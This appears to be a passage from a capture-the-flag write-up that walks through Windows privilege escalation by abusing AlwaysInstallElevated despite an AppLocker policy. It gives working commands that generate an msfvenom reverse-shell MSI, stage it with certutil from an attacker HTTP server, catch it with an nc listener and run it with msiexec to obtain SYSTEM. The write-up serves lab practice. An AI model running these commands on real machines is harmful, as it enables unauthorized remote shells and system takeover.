










By inspecting common Windows registry keys, it was discovered that the AlwaysInstallElevated setting is enabled.
```bash
$ reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```



his vulnerability can be leveraged to execute a Windows Installer (.msi) payload. However, attempting to run the payload initially results in failure.

We can obtain more information about this vulnerability here → https://hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/index.html?highlight=AlwaysInstallElevated#alwaysinstallelevated

Further enumeration reveals that an AppLocker policy is in place, restricting MSI execution. Only the Phoebe and Administrator users are permitted to install MSI files, and only within a specific directory.
```bash
$ powershell
```
And then
```bash
$ get-applockerpolicy -effective | select -expandproperty rulecollections
```



We generate a malicious msi with msfvenom whit this website help → https://hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/index.html?highlight=AlwaysInstallElevated#alwaysinstallelevated
```bash
$ msfvenom -p windows/x64/shell_reverse_tcp  LHOST=10.10.17.55 LPORT=443 --platform windows -a x64 -f msi -o reverse.msi
```



We open a python server to upload this msi file to the target machine
```bash
$ python3 -m http.server 80
```



Now in the target machine shell
```bash
$ certutil.exe -f -urlcache -split http://10.10.17.55/reverse.msi reverse.msi
```



Now we open a listener
```bash
$ rlwrap nc -lvnp 443
```



Now we follow the webpage mentioned before to execute de .msi payload


```bash
$ msiexec /quiet /qn /i reverse.msi
```



Now if we go to our listener to ask whoami we found that we are system



And if we search we found a root Flag



[Back](README.md)